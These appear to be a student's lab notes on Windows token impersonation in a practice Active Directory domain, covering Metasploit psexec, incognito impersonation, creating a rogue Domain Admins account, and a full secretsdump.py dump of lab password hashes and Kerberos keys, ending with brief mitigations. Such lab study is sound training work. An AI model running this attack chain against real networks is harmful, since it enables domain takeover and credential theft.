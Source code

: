 #token #metasploit #incognito #secretsdump 

What are tokens?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

Two types:
- **Delegate** - created for logging into a machine or using Remote Desktop
- **Impersonate** - "non-interactive" such as attaching a network drive or a domain logon script

- can do in metasploit with incognito tool. `load incognito`
	- `impersonate_token <domain>\\<user>`

Step 1: start `msfconsole` and get shell
- search `psexec` select `exploit/windows/smb/psexec`
- set `options`
	- Payload to x64
	- RHOSTS - PUNISHER Box
	- SMBDomain - MARVEL.local
	- SMBPass - Password1
	- SMBUser - fcastle
- get shell

Step 2: `load incognito`
- check with `help`, look at bottom for what is loaded and its commands

Step 3: list tokens
- `list_token -u`
```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
Font Driver Host\UMFD-2
MARVEL\Administrator
MARVEL\fcastle
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1
Window Manager\DWM-2

Impersonation Tokens Available
========================================
No tokens available
```

Step 4: Impersonate user token (skip to Step 6 for admin, 4-5 is proof of concept)
- `impersonate_token marvel\\fcastle`
```
meterpreter > impersonate_token marvel\\fcastle
[+] Delegation token available
[+] Successfully impersonated user MARVEL\fcastle
meterpreter > shell
Process 10228 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\fcastle
```

Step 5:  Ctrl + C, y, `rev2self` to get back to NT AUTHORITY/SYSTEM
```
C:\Windows\system32>^C
Terminate channel 2? [y/N]  y
meterpreter > rev2self
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Step 6: Impersonate admin token
```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
Font Driver Host\UMFD-2
MARVEL\Administrator
MARVEL\fcastle
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1
Window Manager\DWM-2

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token MARVEL\\Administrator
[+] Delegation token available
[+] Successfully impersonated user MARVEL\Administrator
meterpreter > getuid
Server username: MARVEL\Administrator
```

Step 7: Create domain admin user `hawkeye` and add the user to Domain Admins group
```
meterpreter > shell
Process 3220 created.
Channel 3 created.
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\administrator

C:\Windows\system32>net user /add hawkeye Password1@ /domain
net user /add hawkeye Password1@ /domain
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.

C:\Windows\system32>net group "Domain Admins" hawkeye /ADD /DOMAIN
net group "Domain Admins" hawkeye /ADD /DOMAIN
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.
```

- Confirm Domain Admins using hawkeye user, DC IP, and `secretsdump.py` 
```
┌─(~/Documents/PEH)───────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/0)─┐
└─(10:06:02)──> secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.95.132                           ──(Wed,Jul03)─┘
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x42e74ffe3701c01efc4fdb3af0db2fcd
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction failed: string index out of range
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\HYDRA-DC$:aes256-cts-hmac-sha1-96:49ad2931ff2bda80c74a3220930d905e9ca3f9a992760277d06a0371a51f8ab8
MARVEL\HYDRA-DC$:aes128-cts-hmac-sha1-96:5d1a7747024009e7f527e18d648414a0
MARVEL\HYDRA-DC$:des-cbc-md5:203b79f797e6babf
MARVEL\HYDRA-DC$:aad3b435b51404eeaad3b435b51404ee:20b10a26527aaed298fc553866b81642:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc3b7bfe34b69d3596c85aecab23c876ba33575e1
dpapi_userkey:0x73b4ff165058d6780de2a7b662b19483e5d89371
[*] NL$KM 
 0000   91 BB 2D 18 AD 62 F2 AC  4C 0B A9 C9 B4 C2 21 E7   ..-..b..L.....!.
 0010   0A 34 B4 A6 8C CB 13 EA  B6 A2 6A 83 33 2B B2 2D   .4........j.3+.-
 0020   91 6C AB A0 2D D7 EC 80  26 B8 CF EE 67 8F F3 D0   .l..-...&...g...
 0030   CA 65 DB 75 D2 83 57 D0  5A 5B F1 52 01 E1 06 65   .e.u..W.Z[.R...e
NL$KM:91bb2d18ad62f2ac4c0ba9c9b4c221e70a34b4a68ccb13eab6a26a83332bb22d916caba02dd7ec8026b8cfee678ff3d0ca65db75d28357d05a5bf15201e10665
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:60163dd27f6c523edea3d171b2687db4:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
MARVEL.local\SQLService:1107:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
KzhlRYzkCb:1110:aad3b435b51404eeaad3b435b51404ee:6a9067dc6d904c7b3b1429540357683f:::
hawkeye:1111:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:20b10a26527aaed298fc553866b81642:::
THEPUNISHER$:1108:aad3b435b51404eeaad3b435b51404ee:af4c18929a5251f6c038e6e45416047b:::
SPIDERMAN$:1109:aad3b435b51404eeaad3b435b51404ee:5138b9cf4ccdda28a829bfc5e69f2d36:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:22bbb1d6b72d5444198723a7fab7fe9e70238880fd19b576d8edb582c0f1f50c
Administrator:aes128-cts-hmac-sha1-96:9572a284c9e1f886547521b786aadbb2
Administrator:des-cbc-md5:c28a6e0286983d04
krbtgt:aes256-cts-hmac-sha1-96:981ff0f170cdae1af3126454e6be4992a97ab314de13310f0328a09067aac089
krbtgt:aes128-cts-hmac-sha1-96:cb381cd42cd961408bce258de2880686
krbtgt:des-cbc-md5:4546cb2f1c13c754
MARVEL.local\tstark:aes256-cts-hmac-sha1-96:648e4d16720b95bb2b18179624f44ca29f10961666f26caa4f78c77ec18f88e3
MARVEL.local\tstark:aes128-cts-hmac-sha1-96:e168d44446c0d284a38e135222b0c0b6
MARVEL.local\tstark:des-cbc-md5:734601e3fefd4a6e
MARVEL.local\fcastle:aes256-cts-hmac-sha1-96:35f093c1a2aafb4dffbf63201a8a9ec9171a621a3ff90b199bc92273a74d8409
MARVEL.local\fcastle:aes128-cts-hmac-sha1-96:7583c4fe87334691ef5e7fd863f636f9
MARVEL.local\fcastle:des-cbc-md5:4fa7ad454cc78954
MARVEL.local\pparker:aes256-cts-hmac-sha1-96:5fc6b0c6792c9a3b62432eda4a61e5c71efc2c57f5466abea92ac4c16fcae580
MARVEL.local\pparker:aes128-cts-hmac-sha1-96:7693d96d854240b8c654c1f8a86387e1
MARVEL.local\pparker:des-cbc-md5:e3d640734938ec34
MARVEL.local\SQLService:aes256-cts-hmac-sha1-96:7e434c38e06b23841e6764f58a7daaf8ab32c782b98c41e8a0cfe7bea0d00a93
MARVEL.local\SQLService:aes128-cts-hmac-sha1-96:0ad727708ef2aabfe159f71c579c9a0e
MARVEL.local\SQLService:des-cbc-md5:523d2c0ecdea6eba
KzhlRYzkCb:aes256-cts-hmac-sha1-96:4c1508568c6e2d204fb49d867e633f838940fee3d120b9cf9628bcd675329164
KzhlRYzkCb:aes128-cts-hmac-sha1-96:ac7d137417a8210b27575750ef41a407
KzhlRYzkCb:des-cbc-md5:dc133b3b45e9a25e
hawkeye:aes256-cts-hmac-sha1-96:70306b40ac0b9da21903551fa70b3191b61d88749e356b11cbe93721a0d3b471
hawkeye:aes128-cts-hmac-sha1-96:2ee48035a17365b1951d8a8105c917e4
hawkeye:des-cbc-md5:01f758f731b6757c
HYDRA-DC$:aes256-cts-hmac-sha1-96:49ad2931ff2bda80c74a3220930d905e9ca3f9a992760277d06a0371a51f8ab8
HYDRA-DC$:aes128-cts-hmac-sha1-96:5d1a7747024009e7f527e18d648414a0
HYDRA-DC$:des-cbc-md5:40929e25ad6b984c
THEPUNISHER$:aes256-cts-hmac-sha1-96:62d4133ea5d685cfbafb7561616d3f1a4e6142fc864bb26566868af3e257c4f9
THEPUNISHER$:aes128-cts-hmac-sha1-96:931166d2242e0b110c30fb7266cc1db8
THEPUNISHER$:des-cbc-md5:439d4aa1f4da9ef1
SPIDERMAN$:aes256-cts-hmac-sha1-96:bc448221c043342db8a280693156b7404eb26700b71b8faa6e1f341cb9a65864
SPIDERMAN$:aes128-cts-hmac-sha1-96:e6022353a943b0c1a4677ac278a3c9cf
SPIDERMAN$:des-cbc-md5:7334755bba2c0149
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

Mitigation Strategies:
- Limit user/group token creation permission
- Account tiering
- Local admin restriction

